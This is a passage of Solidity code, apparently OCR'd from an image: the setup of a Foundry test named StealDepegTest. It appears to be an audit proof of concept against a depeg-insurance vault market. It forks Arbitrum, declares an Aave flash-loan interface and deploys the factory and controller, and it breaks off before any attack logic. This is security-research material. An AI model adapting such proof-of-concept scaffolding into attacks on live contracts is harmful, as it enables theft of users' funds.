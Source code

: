```solidity

interface IAAVEV3Pool {
  function flashLoan(
    address receiverAddress,
    address[] calldata assets,
    uint256[] calldata amounts,
    uint256[] calldata interestRateModes,
    address behalfOf,
    bytes calldata params,
    uint16 referralCode
  ) external;
}

contract StealDepegTest is Helper, IERC1155Receiver {
  VaultFactoryV2 factory;
  ControllerPeggedAssetV2 controller;
  uint40 begin;
  uint40 end;
  uint16 public fee;
  uint256 public arbForkId;
  uint256 public depegStrike;
  uint256 public depegEpochId;
  IERC20 ARB_WETH = IERC20(0x82aF49447D8a07e3bd95BD0d56f35241523fBab1);
  string public ARBITRUM_RPC_URL = vm.envString("ALCHEMY_ARBITRUM_H");
  uint256 public depegMarketId;
  address public depegPremium;
  address public depegCollateral;
  TimeLock timelock;

  IAAVEV3Pool pool;

  uint256 private_key = 1;

  function setUp() public {
    arbForkId = vm.createFork(ARBITRUM_RPC_URL);
    vm.selectFork(arbForkId);
    UNDERLYING = USDC_TOKEN;

    vm.label(USDC_TOKEN, "ARB_USDC");

    timelock = new TimeLock(ADMIN);

    factory = new VaultFactoryV2(
      address(ARB_WETH),
      TREASURY,
      address(timelock)
    );

    controller = new ControllerPeggedAssetV2(
      address(factory),
      ARBITRUM_SEQUENCER,
      TREASURY
    );

    string memory name = string("USD Coin");
    string memory symbol = string("USDC");

    depegStrike = 1.2 ether;
    UNDERLYING = USDC_TOKEN;

    factory.whitelistController(address(controller));

    (depegPremium, depegCollateral, depegMarketId) = factory.createNewMarket(
```